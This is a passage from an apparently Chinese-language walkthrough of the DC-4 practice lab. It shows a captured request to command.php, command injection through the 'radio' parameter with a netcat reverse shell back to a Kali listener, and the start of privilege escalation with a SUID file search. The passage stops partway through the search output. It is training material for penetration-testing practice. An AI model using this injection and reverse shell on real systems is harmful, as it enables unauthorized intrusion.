     ```python
    POST /command.php HTTP/1.1
    Host: 192.168.75.173
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 22
    Origin: http://192.168.75.173
    Sec-GPC: 1
    Connection: keep-alive
    Referer: http://192.168.75.173/command.php
    Cookie: PHPSESSID=18ugmlkd6apve37kqclfdj4100
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    
    radio=ls+-l&submit=Run
    ```
    
    原来是在数据包参数`radio`规定执行的命令，我们直接输入反弹`shell`命令，kali同时开启监听
    
    ```python
    radio=nc 192.168.75.151 1234 -e /bin/bash&submit=Run
    ```
    
    获得shell
    
    ```python
    listening on [any] 1234 ...
    192.168.75.173: inverse host lookup failed: Unknown host
    connect to [192.168.75.151] from (UNKNOWN) [192.168.75.173] 45602
    ```
    

## 提权

1. 查看权限
    
    ```python
    www-data@dc-4:/usr/share/nginx/html$ whoami
    www-data
    //
    www-data@dc-4:/usr/share/nginx/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    //
    www-data@dc-4:/usr/share/nginx/html$ uname -a
    Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux
    ```
    
2. 查找敏感文件
    
    ```python
    www-data@dc-4:/usr/share/nginx/html$ find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    /usr/bin/gpasswd
    /usr/bin/chfn
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/sbin/exim4
    /bin/mount
    /bin/umount